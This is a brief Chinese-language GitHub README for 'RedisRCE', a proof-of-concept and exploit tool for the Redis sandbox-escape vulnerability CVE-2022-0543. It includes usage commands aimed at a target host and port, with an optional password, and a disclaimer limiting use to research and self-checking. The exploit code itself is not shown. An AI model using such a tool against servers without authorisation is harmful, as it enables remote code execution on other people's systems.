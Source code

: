# CVE-2022-0543

# 1.简介

Redis 沙盒逃逸漏洞（CVE-2022-0543）POC&EXP

# 2.用法

```
RedisRCE -help (查看帮助信息)
RedisRCE -h 192.168.0.100:6379 (无密码连接)  //输入q退出程序
RedisRCE -h 192.168.0.100:6379 -p 123456 (密码连接)
```
![image](https://user-images.githubusercontent.com/108780847/180609014-0329108e-c36c-4384-aece-4f1d05e41567.png)

# 3.免责声明

此工具仅用于学习、研究和自查。
不应用于非法目的，请遵守相关法律法规。
使用本工具产生的任何风险与本人无关！
